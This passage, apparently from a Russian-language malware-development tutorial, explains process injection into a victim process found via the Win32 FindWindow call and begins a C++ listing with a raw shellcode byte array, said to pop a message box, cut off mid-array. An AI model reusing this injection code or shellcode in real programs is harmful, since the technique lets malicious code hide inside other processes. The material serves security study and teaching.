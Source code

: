 \newpage
\subsection{30. Инъекция в процесс через FindWindow. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![injection](./images/43/2022-03-15_11-10.png){width="80%"}    

Этот пост является результатом самостоятельного изучения одной из функций Win32 API.    

В одном из моих [предыдущих](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html) постов я писал о том, как найти процесс по имени для моего инжектора.    

При разработке инжекторов процессов или DLL было бы полезно найти, например, все окна, запущенные в системе, и попробовать выполнить инъекцию в процесс, запущенный от имени администратора. В самом простом случае - найти любое окно процесса, который станет нашей жертвой.    

### практический пример

Алгоритм этой техники прост. Давайте рассмотрим исходный код:

```cpp
/*
 * hack.cpp - classic process injection 
 * via FindWindow. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/03/08/malware-injection-17.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
```
